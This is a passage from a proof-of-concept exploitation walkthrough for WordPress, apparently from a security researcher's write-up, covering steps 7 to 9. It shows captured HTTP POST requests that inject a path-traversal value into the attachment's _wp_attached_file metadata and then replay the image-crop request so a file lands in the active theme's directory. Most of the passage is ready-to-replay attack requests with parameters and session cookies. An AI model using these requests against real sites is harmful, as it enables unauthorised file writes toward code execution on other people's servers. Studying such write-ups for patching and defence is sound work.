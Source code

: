 ```
_wpnonce=ab3340b93c&_wp_http_referer=%2Fwp-admin%2Fpost.php%3Fpost%3D6%26action%3Dedit&user_ID=2&action=editpost&originalaction=editpost&post_author=2&post_type=attachment&original_post_status=inherit&referredby=http%3A%2F%2F34.211.248.202%2Fwp-admin%2Fupload.php%3Fitem%3D6&_wp_original_http_referer=http%3A%2F%2F34.211.248.202%2Fwp-admin%2Fupload.php%3Fitem%3D6&post_ID=6&meta-box-order-nonce=539523098a&closedpostboxesnonce=f7481e5cf7&post_title=poc&samplepermalinknonce=90f8d66414&excerpt=&_wp_attachment_image_alt=&content=&attachment_url=http%3A%2F%2F34.211.248.202%2Fwp-content%2Fuploads%2F2019%2F02%2Fpoc.jpg&original_publish=Update&save=Update&advanced_view=1&comment_status=open&add_comment_nonce=e7116231cd&_ajax_fetch_list_nonce=0163224a2a&_wp_http_referer=%2Fwp-admin%2Fpost.php%3Fpost%3D6%26action%3Dedit&post_name=poc&meta_input[_wp_attached_file]=2019/02/poc.jpg#/poc.jpg
```

#### 7. Crop the image
* Repeat the POST request `/wp-admin/admin-ajax.php` captured in step 5 in Burp Repeater.

#### 8. Update attached file to `poc.jpg#/../../../../themes/<CURRENT THEME>/poc.jpg`
* Update as  `&meta_input[_wp_attached_file]=<CURRENT YEAR>/<CURRENT MONTH>/poc.jpg#/../../../../themes/<CURRENT THEME>/poc.jpg` (e.g. `&meta_input[_wp_attached_file]=2019/02/poc.jpg#/../../../../themes/twentyseventeen/poc.jpg` for February, 2019) in the POST request `/wp-admin/post.php` captured in step 4 in Burp Repeater similar as below and click `Go`.

```
POST /wp-admin/post.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://34.211.248.202/wp-admin/post.php?post=6&action=edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 832
Cookie: wordpress_9f977c8ffc2c97b0c848277689037ed1=author%7C1551298764%7CkwllUoWifopUBYobsNWYqsJTJ1tnI3enLdT6Hx4GdoR%7Cc9a1b8db83347d7e7893f8b871033a3cf8c8d90c0164b9e293e397a46da02df8; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_9f977c8ffc2c97b0c848277689037ed1=author%7C1551298764%7CkwllUoWifopUBYobsNWYqsJTJ1tnI3enLdT6Hx4GdoR%7Cd0d730cf25331c60b4c2ff475f5d9b38ed95d308dcc3452eba307eaa6367d9d8; wp-settings-time-2=1551126207
Connection: close
Upgrade-Insecure-Requests: 1

_wpnonce=ab3340b93c&_wp_http_referer=%2Fwp-admin%2Fpost.php%3Fpost%3D6%26action%3Dedit&user_ID=2&action=editpost&originalaction=editpost&post_author=2&post_type=attachment&original_post_status=inherit&referredby=http%3A%2F%2F34.211.248.202%2Fwp-admin%2Fupload.php%3Fitem%3D6&_wp_original_http_referer=http%3A%2F%2F34.211.248.202%2Fwp-admin%2Fupload.php%3Fitem%3D6&post_ID=6&meta-box-order-nonce=539523098a&closedpostboxesnonce=f7481e5cf7&post_title=poc&samplepermalinknonce=90f8d66414&excerpt=&_wp_attachment_image_alt=&content=&attachment_url=http%3A%2F%2F34.211.248.202%2Fwp-content%2Fuploads%2F2019%2F02%2Fpoc.jpg&original_publish=Update&save=Update&advanced_view=1&comment_status=open&add_comment_nonce=e7116231cd&_ajax_fetch_list_nonce=0163224a2a&_wp_http_referer=%2Fwp-admin%2Fpost.php%3Fpost%3D6%26action%3Dedit&post_name=poc&meta_input[_wp_attached_file]=2019/02/poc.jpg#/../../../../themes/twentyseventeen/poc.jpg
```

#### 9. Crop the image
* Repeat the POST request `/wp-admin/admin-ajax.php` captured in step 5 in Burp Repeater;
* Take a note on the cropped image file name, e.g. `poc-e1551133870454.jpg`.
![](http://avfisher.win/wp-content/uploads/2019/03/step_9.png)
